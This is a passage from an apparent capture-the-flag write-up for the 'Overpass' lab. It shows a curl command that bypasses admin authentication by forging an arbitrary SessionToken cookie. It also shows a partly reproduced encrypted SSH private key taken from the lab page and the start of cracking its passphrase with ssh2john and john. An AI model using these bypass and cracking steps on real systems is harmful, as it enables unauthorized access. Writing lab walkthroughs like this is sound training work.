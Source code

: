 ```js
} 
```
The function extracts the values from the input elements, POSTs them to `/api/login`, and handles the response : if the response is the string 'Incorrect credentials', the login fails, else a cookie `SessionToken` is set with the response content. Having already seen the group's approach to encryption, we might want to gamble here that the server only checks for the existence of the `SessionToken` cookie rather than it's value. To test this, we can curl the `/admin/` route using `--cookie` to set the `SessionToken` cookie to an arbitrary value :

```console
┌──(kali㉿kali)-[~]
└─$ curl --cookie "SessionToken=youdontactuallycheckthisvaluedoyou" $IP/admin/
<!DOCTYPE html>

...snip...

<body>
    <nav>
        <img class="logo" src="/img/overpass.svg" alt="Overpass logo">
        <h2 class="navTitle"><a href="/">Overpass</a></h2>
        <a href="/aboutus">About Us</a>
        <a href="/downloads">Downloads</a>
    </nav>
    <h1 class="pageHeading content">Welcome to the Overpass Administrator area</h1>

...snip...
```

Our intuition was right, and we have access to the `/admin/` page.

## 5: Foothold : private RSA key, john

The admin page contains an encrypted private RSA key for a user james who keeps forgetting his password :

```html
...snip...
<p>Since you keep forgetting your password, James, I've set up SSH keys for you.</p>
<p>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.<br>
Also, we really need to talk about this "Military Grade" encryption. - Paradox</p>
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
...snip...
```

We copy-paste the private key to the attack machine, saving it as `id_rsa`. We then use `ssh2john` module of john to prepare the private key for cracking, saving the result as `id_rsa.john` (you may need the [jumbo version of john](https://github.com/openwall/john) for the ssh2john module). We then use john with the rockyou wordlist to crack the key's passphrase:
